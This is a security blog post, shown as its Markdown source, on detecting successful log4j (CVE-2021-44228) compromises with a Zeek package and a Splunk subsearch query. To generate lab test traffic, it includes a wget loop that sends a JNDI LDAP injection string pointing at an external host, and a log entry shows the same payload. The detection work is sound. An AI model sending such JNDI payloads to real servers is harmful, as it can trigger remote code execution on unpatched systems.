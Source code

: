 ```yaml
---
title: "Detecting successful log4j compromises with Zeek and Splunk"
date: 2021-12-22T18:45:00-06:00
toc: false
images:
categories:
  - tech
tags: 
  - splunk
  - zeek
  - log4j
  - cve-2021-44228
description: How to detect and alert on successful log4j compromises with Zeek and Splunk.
---
```


By using the log4j Zeek package [CVE-2021-44228](https://github.com/corelight/cve-2021-44228) and sending the logs off to Splunk, security analysts can detect successful log4j compromises by alerting on hosts reaching out to log4j payload servers.  

## TL;DR

This Splunk one-liner will first query the zeek_log4j.log to determine the log4j payload IP address then take these results and query the zeek_conn.log to find any successful communication to the payload server(s):

```text
index=zeek sourcetype=zeek_conn [search index=zeek sourcetype=zeek_log4j | dedup target_host | fields target_host | rename target_host as id.resp_h]
```

Example output (using a bogus log4j payload IP address):

[![Image of ](/images/2021-12-23-13-43-55.png)](/images/2021-12-23-13-43-55.png)


## Details

Note: [Installing Splunk](/posts/drafts/installsplunk/) and Zeek are out of scope. There are lots of good tutorials on the web.


First download the Zeek log4j detection package:

```text
git clone https://github.com/corelight/cve-2021-44228.git
```

Example output:

```
jemurray@zeek:~$ git clone https://github.com/corelight/cve-2021-44228.git
Cloning into 'cve-2021-44228'...
remote: Enumerating objects: 259, done.
remote: Counting objects: 100% (45/45), done.
remote: Compressing objects: 100% (31/31), done.
remote: Total 259 (delta 19), reused 23 (delta 14), pack-reused 214
Receiving objects: 100% (259/259), 68.60 KiB | 4.90 MiB/s, done.
Resolving deltas: 100% (114/114), done.
```

Install the Zeek package:

```text
sudo zkg install cve-2021-44228
```

Example output:

```
jemurray@zeek:~$ sudo zkg install cve-2021-44228
The following packages will be INSTALLED:
  /home/jemurray/cve-2021-44228 (develop)

Proceed? [Y/n] y
Installing "/home/jemurray/cve-2021-44228"
Installed "/home/jemurray/cve-2021-44228" (develop)
Loaded "/home/jemurray/cve-2021-44228"
```

Deploy the changes:

```text
sudo zeekctl deploy
```

Example output:

```
jemurray@zeek:/usr/local/zeek/logs/current$ sudo zeekctl deploy
[sudo] password for jemurray:
checking configurations ...
installing ...
removing old policies in /usr/local/zeek/spool/installed-scripts-do-not-touch/site ...
removing old policies in /usr/local/zeek/spool/installed-scripts-do-not-touch/auto ...
creating policy directories ...
installing site policies ...
generating standalone-layout.zeek ...
generating local-networks.zeek ...
generating zeekctl-config.zeek ...
generating zeekctl-config.sh ...
stopping ...
stopping zeek ...
starting ...
starting zeek ...
```

Validate Zeek is running:

```text
sudo /usr/local/zeek/bin/zeekctl status
```

Example output:

```
jemurray@zeek:~$ sudo /usr/local/zeek/bin/zeekctl status
Name         Type       Host          Status    Pid    Started
zeek         standalone localhost     running   36810  22 Dec 18:47:04
```

Validate the package is loaded:

```text
cat /usr/local/zeek/logs/current/loaded_scripts.log | grep -i cve
```

Example output:

```
jemurray@zeek:/usr/local/zeek/logs/current$ cat loaded_scripts.log | grep -i cve
{"name":"    /usr/local/zeek/spool/installed-scripts-do-not-touch/site/packages/cve-2021-44228/__load__.zeek"}
{"name":"      /usr/local/zeek/spool/installed-scripts-do-not-touch/site/packages/cve-2021-44228/CVE_2021_44228.zeek"}
{"name":"      /usr/local/zeek/spool/installed-scripts-do-not-touch/site/packages/cve-2021-44228/CVE_2021_44228_java_GET.zeek"}
```

Generate bogus log4j payloads (using a host also reaching out to the payload IP address):

```text
while [ 1 ]; do echo "running..."; wget -4 --user-agent='${jndi:ldap://104.131.191.87:1389/jasonmurraytest}' http://shell.jasonmurray.org/ -o /dev/null; sleep 1; done
```

Check the log4j.log to validate proper logging:

```
jemurray@zeek:/usr/local/zeek/logs/current$ cat log4j.log
{"ts":1640221805.21603,"uid":"CkoJU1Cmo48NACFDg","http_uri":"http://jasonmurray.org/","uri":"104.131.191.87:1389/jasonmurraytest","stem":"104.131.191.87:1389","target_host":"104.131.191.87","target_port":"1389","method":"GET","is_orig":true,"name":"USER-AGENT","value":"${jndi:ldap://104.131.191.87:1389/jasonmurraytest}","matched_name":false,"matched_value":true}
```

Setup the Splunk UniversalForwarder to send log4j.logs to Splunk by adding the following lines to the `/opt/splunkforwarder/etc/system/local/inputs.conf` file:

```text
[monitor:///usr/local/zeek/logs/current/log4j.log]
_TCP_ROUTING = *
index = zeek
sourcetype = zeek_log4j
```

Restart the UniversalForwarder:

```text
sudo /opt/splunkforwarder/bin/splunk restart
```

Example output:

```
jemurray@zeek:/opt/splunkforwarder/etc/system/local$ sudo /opt/splunkforwarder/bin/splunk restart
Stopping splunkd...
Shutting down.  Please wait, as this may take a few minutes.

Stopping splunk helpers...

Done.
....
All preliminary checks passed.

Starting splunk server daemon (splunkd)...
Done
```
To generate testing data in this lab environment. I am running the `wget` command on a host performing the commands necessary to compromise the target and communicate with a host where the malicious payload is hosted. 

The following query will first [subsearch](https://docs.splunk.com/Documentation/SplunkCloud/latest/SearchTutorial/Useasubsearch) the zeek_log4j.log to find all the unique instances of log4j payload hosts. Again, these are the hosts a compromised device will contact to download the malicious payload. Once the target hosts are identified, another query is made to the zeek_conn.log to find any instances where local devices reached out the payload host.


```
index=zeek sourcetype=zeek_conn [search index=zeek sourcetype=zeek_log4j | dedup target_host | fields target_host | rename target_host as id.resp_h]
```

Any results to this query indicate a device on the local network is reaching out to a server hosting malicious log4j payloads:

[![Image of ](/images/2021-12-23-13-43-55.png)](/images/2021-12-23-13-43-55.png)


## Next Steps

This is a quick and dirty demonstration of Zeek and Splunk's ability to reliably find exploited hosts reaching out to servers hosting malicious log4j payloads. There are a number of way to improve detection.

- Include additional log sources, such a web servers, load balancers, etc.  The log4j detection within Zeek, does not capture SSL encrypted connections.
- Tighten the Splunk zeek_conn.log query to only include connection flags of successful connections.
- Convert hostnames in the log4j payloads to IP addresses.
- Support IPv6.
- Add this query to the Splunk automated alerts.

Log4j is a serious flaw. It is better to get automated detection setup now and refine it later.  A few false positives are better then not detecting anything at all.


